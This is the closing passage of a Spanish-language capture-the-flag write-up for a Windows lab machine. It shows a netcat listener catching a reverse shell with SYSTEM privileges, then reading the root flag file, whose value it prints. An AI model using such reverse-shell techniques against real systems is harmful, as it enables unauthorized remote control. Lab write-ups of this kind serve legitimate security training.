 ```
nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.108] 65188
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Podemos notar que somos administrador, ahora buscamos la flag en el directorio personal del administrador:

```
C:\Users\Administrator\Desktop>type root.txt
type root.txt
c1e9b456ee2a4891a570be
```

¡Bien!

Hemos ganado acceso como administrador.


Nos vemos, hasta la próxima.
